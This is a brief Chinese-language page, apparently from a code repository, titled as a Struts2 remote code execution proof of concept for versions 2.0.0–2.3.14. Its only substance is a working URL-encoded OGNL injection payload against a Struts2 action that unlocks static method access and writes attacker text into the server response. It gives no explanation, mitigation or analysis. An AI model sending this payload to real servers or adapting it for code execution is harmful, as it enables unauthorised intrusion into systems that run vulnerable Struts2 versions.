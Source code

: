 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14

POC过程:

<pre>
http://localhost:8080/struts2demo/HelloWorld.action?q=%25%7B%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29+%28%23hackedbykxlzx%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23hackedbykxlzx.println%28%27hacked+by+kxlzx%27%29%2C%23hackedbykxlzx.close%28%29%29%7D
</pre>

